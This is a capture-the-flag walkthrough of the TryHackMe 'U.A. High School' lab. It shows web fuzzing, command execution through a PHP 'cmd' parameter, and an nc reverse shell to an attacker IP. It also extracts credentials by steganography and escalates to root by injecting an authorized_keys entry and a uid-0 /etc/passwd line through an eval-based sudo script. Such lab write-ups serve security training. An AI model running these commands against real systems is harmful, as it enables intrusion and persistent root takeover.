

# TryHackMe-U.A. High School

**Scope:**

- PHP Remote Code Execution
- Steganography
- Initial Logic

**Keywords:**

- Brute Force for Command Execution
- Remote Code Execution
- PHP File
- Internal File Enumeration
- Steganography
- Extracting Files from Image
- Hex Manipulation
- Changing File Signature
- SSH Connection
- Script Analysis

**Main Commands:**

- `nmap -sS -sC -sV -T4 -A -O -oN nmap_results.txt -F -Pn $target_ip`
- `wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 403,404,500,501,502,503 -c -t 50 'http://yueiua.thm/FUZZ'`
- `curl -iLX GET -D responseassets.txt http://yueiua.thm/assets`
- `curl -iLX GET -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' http://yueiua.thm/assets/index.php`
- `ffuf -u 'http://yueiua.thm/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' -fs 0`
- `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id'`
- `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id' | base64 -d`
- `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.37.37 11222 >/tmp/f' | base64 -d`
- `file oneforall.jpg`
- `xxd oneforall.jpg | head`
- `hexeditor -b oneforall.jpg`
- `steghide extract -sf oneforall.jpg`
- `ssh -o MACs=hmac-sha2-256 deku@yueiua.thm -p 22`
- `ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@yueiua.thm -p 22`
- `mkpasswd -m md5crypt -s`

**System Commands:**

- `uname -a`
- `dpkg --version`
- `python3 -c 'import pty;pty.spawn("/bin/bash");'`
- `export TERM=xterm`
- `cat Hidden_Content/passphrase.txt | base64 -d`
- `sudo -l`
- `sudo /opt/NewComponent/feedback.sh`

### Laboratory Environment

[U.A. High School](https://tryhackme.com/r/room/yueiua)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sC -sV -T4 -A -O -oN nmap_results.txt -F -Pn $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

> **HTTP Port Check**
> 

`curl -iLX GET http://yueiua.thm`

```bash
HTTP/1.1 200 OK
Date: Wed, 09 Oct 2024 05:29:19 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Wed, 13 Dec 2023 22:12:34 GMT
ETag: "7c4-60c6b76c8b8da"
Accept-Ranges: bytes
Content-Length: 1988
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
<head>
        <title>U.A. High School</title>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link rel="stylesheet" href="assets/styles.css">
</head>
<body>
        <header>
                <nav>
                        <ul>
                                <li><a href="about.html">About</a></li>
                                <li><a href="courses.html">Courses</a></li>
                                <li><a href="admissions.html">Admissions</a></li>
                                <li><a href="contact.html">Contact</a></li>
                        </ul>
                </nav>
                <h1>Welcome to U.A. High School - Beta </h1>
        </header>

        <main>
                <section>
                        <h2>About Us</h2>
                        <p>U.A. High School is a premier institution of higher learning that specializes in training aspiring heroes to become the next generation of defenders of peace and justice. Founded in Japan by the legendary hero All Might, U.A. High School has a long and proud tradition of excellence in education, research, and service to society.</p>
                </section>

                <section>
                        <h2>Our Courses</h2>
                        <ul>
                                <li>Heroics</li>
                                <li>Support Course</li>
                                <li>General Studies</li>
                                <li>Business Course</li>
                                <li>Department of Management</li>
                        </ul>
                </section>

                <section>
                        <h2>Admissions</h2>
                        <p>If you have a strong desire to become a hero and possess the necessary skills and abilities, then U.A. High School may be the perfect place for you to start your journey. Visit our admissions page to learn more about our application process, requirements, and deadlines.</p>
                        <a href="#">Apply Now</a>
                </section>

                <section>
                        <h2>Contact Us</h2>
                        <p>If you have any questions, comments, or suggestions, please do not hesitate to contact us. We would love to hear from you.</p>
                        <ul>
                                <li>Address: 3-1 Uchiharano-cho, Izumi Ward, Yokohama, Kanagawa Prefecture 〒 245-8501, Japan</li>
                                <li>Phone: +81 45-786-3000</li>
                                <li>Email: info@yuei.ac.jp</li>
                        </ul>
                </section>
        </main>

        <footer>
                <p>&copy; 2023 U.A. High School. All rights reserved.</p>
        </footer>
</body>
</html>
```

> **Directory Scan & Endpoint Control**
> 

`wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 403,404,500,501,502,503 -c -t 50 'http://yueiua.thm/FUZZ'`

```bash
000000734:   301        9 L      28 W       309 Ch      "assets"                                                                         
000002204:   200        61 L     225 W      1988 Ch     "index.html"
```

`curl -iLX GET -D responseassets.txt http://yueiua.thm/assets`

```bash
HTTP/1.1 301 Moved Permanently
Date: Wed, 09 Oct 2024 05:34:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://yueiua.thm/assets/
Content-Length: 309
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 09 Oct 2024 05:34:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

`curl -iLX GET -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' http://yueiua.thm/assets/index.php`

```bash
HTTP/1.1 200 OK
Date: Wed, 09 Oct 2024 05:35:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

> **Command Discovery & Remote Code Execution Phase**
> 

`ffuf -u 'http://yueiua.thm/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' -fs 0`

```bash
cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 329ms]
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id'`

```bash
dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id' | base64 -d`

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=which netcat' | base64 -d`

```bash
/usr/bin/netcat
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=ls -lsa /var/www/html/' | base64 -d`

```bash
4 drwxr-xr-x 3 www-data www-data 4096 Dec 13  2023 .
4 drwxr-xr-x 4 www-data www-data 4096 Dec 13  2023 ..
4 -rw-rw-r-- 1 www-data www-data 2542 Dec 13  2023 about.html
4 -rw-rw-r-- 1 www-data www-data 2573 Dec 13  2023 admissions.html
4 drwxrwxr-x 3 www-data www-data 4096 Jan 25  2024 assets
4 -rw-rw-r-- 1 www-data www-data 2056 Dec 13  2023 contact.html
4 -rw-rw-r-- 1 www-data www-data 2580 Dec 13  2023 courses.html
4 -rw-rw-r-- 1 www-data www-data 1988 Dec 13  2023 index.html
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=whoami' | base64 -d`

```bash
www-data
```

> **Reverse Shell Phase**
> 

`nc -nlvp 11222`

```bash
listening on [any] 11222 ...
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.37.37 11222 >/tmp/f' | base64 -d`

```bash
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.188.133] 51160
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell

www-data@myheroacademia:/var/www/html/assets$ whoami
www-data
www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@myheroacademia:/var/www/html/assets$ pwd
/var/www/html/assets
www-data@myheroacademia:/var/www/html/assets$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
www-data@myheroacademia:/var/www/html/assets$ dpkg --version
Debian 'dpkg' package management program version 1.19.7 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
www-data@myheroacademia:/var/www/html/assets$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@myheroacademia:/var/www/html/assets$ export TERM=xterm
www-data@myheroacademia:/var/www/html/assets$
```

> **Internal File Enumeration Phase**
> 

```bash
www-data@myheroacademia:/var/www/html/assets$ cd ../../
www-data@myheroacademia:/var/www$ ls -lsh
total 8.0K
4.0K drwxrwxr-x 2 www-data www-data 4.0K Jul  9  2023 Hidden_Content
4.0K drwxr-xr-x 3 www-data www-data 4.0K Dec 13  2023 html

www-data@myheroacademia:/var/www$ ls -lsa Hidden_Content
total 12
4 drwxrwxr-x 2 www-data www-data 4096 Jul  9  2023 .
4 drwxr-xr-x 4 www-data www-data 4096 Dec 13  2023 ..
4 -rw-rw-r-- 1 www-data www-data   29 Jul  9  2023 passphrase.txt

www-data@myheroacademia:/var/www$ cat Hidden_Content/passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg==
www-data@myheroacademia:/var/www$ cat Hidden_Content/passphrase.txt | base64 -d
AllmightForEver!!!

www-data@myheroacademia:/var/www$ ls -lsa html/assets/images
total 336
  4 drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
  4 drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
 96 -rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
232 -rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
www-data@myheroacademia:/var/www$ 
```

> **Steganography & Image Analysis Phase**
> 

`wget http://yueiua.thm/assets/images/oneforall.jpg`

```bash
oneforall.jpg                        100%[====================================================================>]  95.96K  97.2KB/s    in 1.0s    

2024-10-09 01:57:09 (97.2 KB/s) - 'oneforall.jpg' saved [98264/98264]
```

`file oneforall.jpg`

```bash
oneforall.jpg: data
```

`xxd oneforall.jpg | head`

```bash
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  ((((((((((((((((
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  ((((((((((((((((
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..
```

> **File Hex Manipulation & Extraction Phase**
> 

`hexeditor -b oneforall.jpg`



**For file signatures:**

[List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

`file oneforall.jpg`

```bash
oneforall.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1140x570, components 3
```

`steghide extract -sf oneforall.jpg`

```bash
Enter passphrase: AllmightForEver!!!
wrote extracted data to "creds.txt".
```

`cat creds.txt`

```bash
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

> **SSH Connection Phase**
> 

`ssh -o MACs=hmac-sha2-256 deku@yueiua.thm -p 22`

```bash
deku@yueiua.thm's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-153-generic x86_64)

deku@myheroacademia:~$ whoami
deku
deku@myheroacademia:~$ id
uid=1000(deku) gid=1000(deku) groups=1000(deku)
deku@myheroacademia:~$ pwd
/home/deku
deku@myheroacademia:~$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
deku@myheroacademia:~$ 
```

> **Privilege Escalation with Initial Logic**
> 

```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku: 

Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    
deku@myheroacademia:~$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

deku@myheroacademia:~$ cat /var/log/feedback.txt
deku@myheroacademia:~$ 
```

`cat /root/.ssh/id_ed25519.pub`

```bash
ssh-ed25519 [REDACTED] - SECRET root@kali
```

```bash
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:

'ssh-ed25519 [REDACTED] - SECRET root@kali' >> /root/.ssh/authorized_keys

It is This:
Feedback successfully saved.

deku@myheroacademia:~$
```

`ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@yueiua.thm -p 22`

```bash
root@myheroacademia:~# whoami
root
root@myheroacademia:~# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:~# 
```

`mkpasswd -m md5crypt -s`

```bash
Password: overthenet
$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/
```

**PASSWD PAYLOAD:**

```bash
overthenet:$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/:0:0:overthenet:/root:/bin/bash
```

```bash
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:

'overthenet:$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/:0:0:overthenet:/root:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.

deku@myheroacademia:~$ tail -n1 /etc/passwd
overthenet:$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/:0:0:overthenet:/root:/bin/bash
deku@myheroacademia:~$ su overthenet
Password: 
root@myheroacademia:/home/deku# whoami
root
root@myheroacademia:/home/deku# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:/home/deku# 
```

# **Appendix**

## Steganography

<aside>
💡

Steganography is the practice of concealing information within another file, message, image, or video in such a way that its presence is hidden. Unlike encryption, which makes data unreadable without a key, steganography aims to disguise the existence of the hidden data itself, often blending it into a harmless-looking file or medium. In digital steganography, data is hidden by modifying the least significant bits (LSB) of the cover file’s digital binary representation, making the change subtle and unlikely to affect the file's quality.

</aside>